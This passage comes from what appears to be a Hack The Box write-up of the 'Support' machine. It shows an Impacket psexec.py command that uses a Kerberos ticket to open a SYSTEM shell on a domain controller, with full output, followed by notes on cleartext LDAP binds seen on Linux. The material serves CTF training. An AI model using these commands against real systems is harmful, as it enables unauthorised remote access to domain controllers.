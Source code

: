 ```
oxdf@hacky$ KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file aXlgPfYK.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service lyPY on dc.support.htb.....
[*] Starting service lyPY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.405]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

And grab `root.txt`:

```
C:\Users\Administrator\Desktop> type root.txt
f319ce3e************************
```

## Beyond Root

[Above](https://0xdf.gitlab.io/2022/12/17/htb-support.html#dynamic), I pulled the LDAP creds out of Wireshark. It turns out this only works on Linux, not Windows (at least as far as I could figure out).

I’ll note on Linux (for example `mono UserInfo.exe find -first 0xdf`) the conversation looks like this:

![image-20221215134817752](https://0xdfimages.gitlab.io/img/image-20221215134817752.png)

The most important part is the `bindRequest(1)` for the `support\ldap` user with “simple” auth.

The same run on Windows shows this:

![image-20221215135205462](https://0xdfimages.gitlab.io/img/image-20221215135205462.png)

The `bindRequest` this time is using “NTLMSSP_NEGOTIATEsasl”. This is a more secure form of auth where passwords are not passed in the clear. The TCP stream looks like:

![image-20221215135412325](https://0xdfimages.gitlab.io/img/image-20221215135412325.png)

IppSec and I spent 30 minutes trying to figure out if we could tell Windows to only use the insecure simple auth, but couldn’t force it.
